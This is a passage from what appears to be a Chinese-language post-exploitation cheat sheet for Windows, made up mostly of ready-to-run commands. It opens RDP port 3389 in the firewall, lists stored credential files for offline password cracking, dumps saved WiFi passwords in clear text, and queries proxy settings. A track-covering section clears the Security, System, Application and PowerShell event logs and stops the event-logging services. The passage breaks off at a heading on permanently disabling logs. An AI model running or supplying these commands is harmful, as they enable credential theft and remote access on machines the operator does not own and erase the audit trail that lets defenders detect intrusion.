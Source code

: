 ```
shell netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250722133732.png)
## 离线破解RDP连接密码
查看是否存在凭证：
```
shell dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250722133858.png)
## 获取WiFi密码
查看连接过的Wifi名称：
```
netsh wlan show profiles
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250722134654.png)
如果乱码可以下载下来看
```
shell netsh wlan show profiles > wlan.txt
```
查看指定Wifi的密码：
```
netsh wlan show profile name="WIFI名称" key=clear
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250722134819.png)
## 查看代理
```
shell reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings"
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250722135014.png)
# 0x13 ⽇志痕迹相关
## 清除事件⽇志
```
wevtutil cl "Windows PowerShell"
wevtutil cl "Security"
wevtutil cl "System"
wevtutil cl "Application"

Security：登录/特权操作记录
Windows PowerShell：PS执⾏历史
System：系统服务/驱动事件
Application：应⽤程序事件
```
## 停⽌⽇志相关服务
```
阻⽌新⽇志⽣成  
禁⽤事件转发功能
中断⽇志记录链
sc stop Schedule
sc stop wecsvc
sc stop eventlog
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250722135228.png)
## 永久禁⽤⽇志服务